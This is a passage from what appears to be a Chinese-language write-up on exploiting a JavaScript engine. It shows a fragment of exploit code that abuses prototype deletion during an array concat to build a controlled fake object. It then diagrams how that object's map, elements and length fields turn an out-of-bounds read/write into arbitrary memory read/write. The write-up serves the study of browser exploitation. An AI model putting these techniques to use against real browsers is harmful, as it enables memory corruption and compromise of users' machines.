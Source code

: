 ```js
                delete Object.prototype.valueOf;
                // 终止 concat 
                throw "Fake object is under cuntrol!";
                return 4.3;
            }
            delete Array.prototype[10];
            return 4.3;
        }
    };

    // ...
}

try {
    overlap();
} catch(e) {
    log(e);
}

```

#### 从越界读写到任意地址读写

至此，我们已经获得了越界读写的能力，内存中有如下状态（示意图，前后关系可能会有区别）：

```sh
---------------------------------------------------------------------------------       
+       map (element of g_fake_obj)                                             + <-----+
+-------------------------------------------------------------------------------+       |
+       length      |           0                                               +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to leaked map)  (var: g_controlled_obj)              +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to leaked pro)  g_controlled_arr pro                 +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to leaked elem) g_controlled_arr elem                +       |
+                       which can be pointed to any place in memory             +       |
+-------------------------------------------------------------------------------+       |
+  controlled data (be set to length)                                           +       | 
+-------------------------------------------------------------------------------+       |
+               ....                                                            +       |
+-------------------------------------------------------------------------------+       |
+        map (var: g_fake_obj)                                                  +       |
+-------------------------------------------------------------------------------+       |
+               prototype                                                       +       |
+-------------------------------------------------------------------------------+       |
+               elements                                                        + ------+
+-------------------------------------------------------------------------------+
+   length          |           0                                               +
+-------------------------------------------------------------------------------+
+               properties                                                      +
---------------------------------------------------------------------------------
```
